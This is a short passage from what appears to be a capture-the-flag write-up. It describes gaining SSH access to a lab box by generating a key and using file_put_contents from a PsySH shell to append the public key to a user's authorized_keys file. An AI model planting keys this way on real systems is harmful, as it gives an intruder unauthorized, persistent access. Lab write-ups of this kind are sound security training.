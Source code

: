 ## Unintended way to get a SSH session

After we know that we have write permissions on dali in the Psy Shell we have another way to get on the box.

We can create our own SSH key:

```markdown
ssh-keygen -f dali
```

Put the contents of the public key into _.ssh/authorized_keys_:

```markdown
file_put_contents("/home/dali/.ssh/authorized_keys","ssh-rsa AAAAB3Nza... root@kali", FILE_APPEND)
```

And now we can log into the box with SSH.

